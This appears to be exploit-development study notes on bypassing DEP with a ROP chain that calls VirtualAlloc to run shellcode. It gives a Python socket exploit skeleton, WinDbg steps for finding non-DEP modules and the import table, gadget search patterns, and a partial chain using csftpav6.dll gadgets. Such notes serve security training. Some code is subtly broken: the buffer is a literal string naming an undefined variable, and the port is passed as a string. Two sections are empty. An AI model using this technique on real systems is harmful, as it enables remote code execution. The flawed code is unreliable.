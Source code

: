 # DEP Bypass

Uses Gadgets / Rop Chains to call the `VirtualAlloc` function and execute shellcode

### 1. Skeleton Starting Python Code
```
import socket
import sys
from struct import pack

# variables
SIZE = 500

# CommandBuffer
# These lines execute VirtualAlloc with shellcode
cb  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
cb += pack("<L", (0x46464646)) # Shellcode Return Address
cb += pack("<L", (0x47474747)) # # dummy Shellcode Address
cb += pack("<L", (0x48484848)) # dummy dwSize 
cb += pack("<L", (0x49494949)) # # dummy flAllocationType 
cb += pack("<L", (0x51515151)) # dummy flProtect

# buffer
offset = b'\x41' * SIZE
eip = b'\x42' * 4
rop = b'\x43' * (0x600 - SIZE - len(eip))

buf = b'offset + va + eip + rop'
print('[I] %s : %s' % (len(buf),buf)) # always good to print buffers to make sure they meet expectation

def main():
  if len(sys.argv) != 3:
    print('Usage: %s <ip_address> <port>\n' % (sys.argv[0]))
    sys.exit(1)

  server = sys.argv[1]
  port = sys.argv[2]
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  
  s.send(buf)
  s.close()

  print('[+] Packet sent')
  sys.exit()

if __name__ == '__main__':
  main()
```

### 2. Identify Offset  
...  

### 3. Find Bad Characters 
[Finding Bad Characters](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/exploit_dev/identifying_bad_characters.md)  

### 4. Identify File(s) to use for Gadgets
* Files must not have DEP enabled.
* Files must not have bad characters in high bits of memory address
```
# Using Windbg
# list modules
>lm
start    end        module name
00190000 001c3000   snclientapi   (deferred)             
001d0000 001fd000   libcclog   (deferred)             
00400000 00c0c000   GraceServer   (deferred)             
012c0000 01302000   NLS        (deferred)             
01380000 013ab000   gsk8iccs   (deferred)             
01440000 0147a000   icclib019   (deferred)             
030d0000 031c0000   libeay32IBM019   (deferred)

>!dh -f <memory base address>
 ...
  # This means DEP/NX is enabled
    4140  DLL characteristics
            Dynamic base
            NX compatible
            Guard
  ...
  # No DEP enabled
  0  DLL characteristics
```

### 5.  Extract Gadgets from file
[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)  

Using `rp-win-x86.exe`
```
C:\rp-win-x86 -f <file> -r <max number of instructions> > <output file>
```
Load the output file into Visual Studio Code or text editor to search.

### 6.  Access the Bytes containing the dummy VirtualAlloc Address

  1. Save the ESP register address into another register, such as EAX, EDI, or ESI.  This address will later be used with an offset to access the dummy VirtualAlloc Address.
     * Search the gadgets text file for suitable operations to accomplish this.
      - Gadget memory addresses cannot contain bad characters  
      - Remember top of the stack contains the function return address.    
     * Place first gadget into eip.  Subsequent gadgets should be in the 'rop' section
     * Sample searches
       ```
       push esp.* ; .* pop.* ; ret
       mov .*, esp
       xchg .*, esp
       xor .*, .* ; add .*, esp
       lea .*, esp
       sub .*, .*, adc .*, esi
       
       ```
       
    
     ```
      # rop chain
        eip = pack("<L", (0x505412f9))  # mov eax, ecx; ret;  :: csftpav6.dll | copy ecx address to eax
        rop = pack("<L", (0x505115a3))  # pop ecx; ret;  :: csftpav6.dll | pop the offset value into ecx
        rop += pack("<L", (0xffffe770)) # -1680 | offset value
        rop += pack("<L", (0x50533bea)) # sub eax, ecx; ret;  :: csftpav6.dll | subtract eax from ecx to get the start of the VirtualAlloc field
  
       ...
       buf = offset + cb + eip + rop 
       ```

### 7. Obtaining VirtualAlloc Address

```
#Using Windbg

>lm m <module name>
Browse full module list
start    end        module name
50500000 50577000   module_name   (export symbols)       C:\module_name.DLL

> !dh -f 50500000

File Type: DLL
FILE HEADER VALUES
     14C machine (i386)
       5 number of sections
4C056121 time date stamp Tue Jun  1 12:36:01 2010

       0 file pointer to symbol table
       0 number of symbols
      E0 size of optional header
    2102 characteristics
            Executable
            32 bit word machine
            DLL
...

       0  DLL characteristics
   53870 [    1068] address [size] of Export Directory
   52A2C [      50] address [size] of Import Directory
   60000 [   12500] address [size] of Resource Directory
       0 [       0] address [size] of Exception Directory
   71000 [    16A8] address [size] of Security Directory
   73000 [    2AF4] address [size] of Base Relocation Directory
       0 [       0] address [size] of Debug Directory
       0 [       0] address [size] of Description Directory
       0 [       0] address [size] of Special Directory
       0 [       0] address [size] of Thread Storage Directory
   523E0 [      40] address [size] of Load Configuration Directory
       0 [       0] address [size] of Bound Import Directory
   4A000 [     28C] address [size] of Import Address Table Directory  **** <--- IAT Address ****
       0 [       0] address [size] of Delay Import Directory
       0 [       0] address [size] of COR20 Header Directory
       0 [       0] address [size] of Reserved Directory
       
>dps 5054a000 l28c
5054a000  757f0020 ADVAPI32!RegCreateKeyExA
5054a004  757efc10 ADVAPI32!RegOpenKeyExA
5054a008  757ef560 ADVAPI32!RegCloseKey
5054a00c  758138b0 ADVAPI32!RegSetValueA
5054a010  757e1200 ADVAPI32!RegQueryValueA
5054a014  757f02c0 ADVAPI32!RegDeleteKeyA
5054a018  757f2a70 ADVAPI32!RegEnumKeyA

```
### 8. 

